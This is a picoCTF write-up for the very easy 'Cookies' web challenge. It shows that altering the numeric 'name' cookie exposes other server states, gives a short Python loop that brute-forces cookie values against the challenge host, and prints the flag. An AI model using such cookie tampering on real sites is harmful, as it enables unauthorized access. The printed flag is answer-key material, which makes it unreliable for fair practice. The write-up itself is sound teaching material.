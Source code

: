 ```yaml
---
layout: page
title: Cookies
exclude: true
---
```


## Summary
- **Category:** Web Exploitation
- **Difficulty:** Very Easy
- **Main Topics:** Cookies
- [**CTF webpage**](https://play.picoctf.org/practice/challenge/173?category=1&page=1)

## Cookies
> Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/) 

The first step is to connect to the website that shows the following homepage.

<img src='{{ '/pico/cookies/imgs/cookies.png' | relative_url }}' width='50%'>

Enter `snickerdoodle` in the input field and go to the `Storage` tab of devtools in your browser to analyze
cookie values. You can see that the value of the `name` cookie changes from `-1` to `0`.

Increasing the value of the cookie from `1` to `2` shows that `oatmeal` is another accepted word.
Repeating this process until you get the flag can be tedious, so you can run the following script:
{% highlight python %}
import requests

for i in range(29):
    cookies = {'name': str(i)}
    request = requests.get('http://mercury.picoctf.net:21485/check', cookies=cookies)
    result = request.text
    
    print(f'[+] Testing Cookie: {i}\t| Result: ', end='')
    if "I love" not in result:
        print(result.split('<code>')[1].split('</code>')[0])
        break
    else:
        print('No flag found')
{% endhighlight %}

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`

